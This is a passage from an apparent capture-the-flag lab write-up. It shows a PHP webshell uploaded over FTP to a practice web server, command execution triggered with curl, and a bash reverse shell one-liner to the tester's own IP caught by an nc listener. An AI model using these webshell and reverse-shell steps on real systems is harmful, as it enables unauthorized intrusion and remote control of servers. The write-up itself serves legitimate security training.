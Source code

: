 I collected the three PHP files (`index.php`, `team.php`, and `pypi/register.php`). None of them actually have any dynamic content.

#### Upload Webshell

It does turn out that this account can write here. I’ll upload a simple webshell:

```

ftp> put /opt/shells/php/cmd.php 0xdf.php
local: /opt/shells/php/cmd.php remote: 0xdf.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
35 bytes sent in 0.00 secs (26.7656 kB/s)

```

I can trigger it and get execution:

```

root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

There is clearly a cron cleaning up the dev directory, as the webshell will be deleted quickly.

#### Shell

I’ll trigger the webshell to get an interactive shell:

```

root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.42/443 0>&1'"

```

`nc` gets a connection:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:54094.
bash: cannot set terminal process group (661): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

